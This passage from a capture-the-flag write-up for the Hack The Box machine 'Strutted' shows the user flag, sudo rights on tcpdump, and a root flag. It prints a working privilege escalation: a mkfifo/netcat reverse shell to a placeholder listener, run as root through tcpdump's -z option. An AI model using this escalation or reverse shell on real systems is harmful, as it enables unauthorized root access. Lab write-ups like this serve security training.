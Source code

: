 ![](gitbook/cybersecurity/images/Pasted%20image%2020250325144459.png)

They worked, let's read `user.txt`:

```
james@strutted:~$ cat user.txt
44a90bc1dcd2c965919256669e724c94
```

Now, we can begin by checking our sudo privileges with `sudo -l`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325144706.png)

We got sudo privileges on `/usr/sbin/tcpdump`, let's check it out on `gtfobins`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325144813.png)

We can do the following to get a reverse shell as root:

```
# Replace IP/PORT with your listener details
COMMAND='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP PORT >/tmp/f'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Now, let's start a new listener with the specified port, we'll see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325145323.png)

We got the root shell, let's read root flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325145422.png)

```
root@strutted:/home/james# cat /root/root.txt
893db4ca4371dc763f7dc9aa9a709659
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250325145445.png)

https://www.hackthebox.com/achievement/machine/1872557/644
